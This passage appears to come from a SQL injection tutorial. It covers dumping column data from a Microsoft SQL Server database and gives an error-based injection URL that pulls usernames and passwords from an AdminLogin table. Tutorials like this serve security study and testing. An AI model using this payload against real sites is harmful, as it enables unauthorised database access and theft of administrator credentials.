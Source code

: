 ```  

### Dumping data inside columns

We know what the tables and columns are (from DIOS or manual dumping), however DIOS is much more recommended as it saves time and effort.

This is a piece of the whole database that we will dump:

**Table name**: *AdminLogin*  
**Columns**: *username*, *password* 

```http://domain.com/index.php?id=1' and 1=(select username %2b ':' %2b password from AdminLogin for xml PATH("))-- -```

![column_dumped](https://i.imgur.com/OwfunVg.jpg)
